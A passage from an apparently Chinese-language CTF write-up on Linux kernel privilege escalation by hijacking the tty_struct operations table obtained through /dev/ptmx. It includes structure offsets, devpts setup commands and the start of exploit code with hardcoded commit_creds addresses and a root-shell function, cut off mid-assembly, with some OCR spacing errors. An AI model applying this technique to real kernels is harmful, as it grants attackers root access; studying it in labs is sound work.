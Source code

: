 在 /dev 下有一个伪终端设备 ptmx ，在我们打开这个设备时内核中会创建一个 tty_struct 结构体，  
```
ptmx_open (drivers/tty/pty.c)
-> tty_init_dev (drivers/tty/tty_io.c)
  -> alloc_tty_struct (drivers/tty/tty_io.c)
```  
  
tty 的结构体 tty_srtuct 定义在 linux/tty.h 中。其中 ops 项（64bit 下位于 结构体偏移 0x18 处）指向一个存放 tty 相关操作函数的函数指针的结构体 tty_operations 。其魔数为0x5401  
```
// sizeof(struct tty_struct) == 0x2e0
/* tty magic number */
#define TTY_MAGIC        0x5401
struct tty_struct {
...
conststruct tty_operations *ops;
...
}
struct tty_operations {
...
int(*ioctl)(struct tty_struct *tty,
unsignedint cmd,unsignedlong arg);
...
};
```  
  
使用 tty 设备的前提是挂载了 ptmx 设备。  
```
mkdir /dev/pts
mount -t devpts none /dev/pts
chmod 777 /dev/ptmx
```  
  
所以我们只需要劫持 tty_ops 的某个可触发的操作即可，将其劫持到 get_root 函数处。  
## exp  
```
#include <sys/wait.h>
#include <assert.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <unistd.h>

#define BOF_MALLOC 5
#define BOF_FREE 7
#define BOF_EDIT 8
#define BOF_READ 9

void*(*commit_creds)(void*)=(void*)0xffffffff810a1340;
size_t init_cred =0xFFFFFFFF81E496C0;

voidget_shell()
{
    system("/bin/sh");
}

unsignedlong user_cs, user_rflags, user_rsp, user_ss, user_rip =(size_t) get_shell;

voidsave_status(){
    __asm__(
"mov user_cs, cs;"
"mov user_ss, ss;"
```